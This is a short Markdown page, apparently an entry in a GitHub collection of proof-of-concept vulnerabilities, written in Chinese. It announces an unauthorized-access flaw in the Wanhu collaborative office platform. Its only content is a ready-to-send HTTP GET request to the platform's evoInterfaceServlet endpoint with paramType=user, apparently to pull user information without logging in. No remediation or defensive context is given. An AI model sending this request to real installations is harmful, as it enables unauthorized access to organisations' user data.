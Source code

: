 # 万户协同办公平台存在未授权访问漏洞

## 万户协同办公平台存在未授权访问漏洞
```

GET /defaultroot/evoInterfaceServlet?paramType=user
```

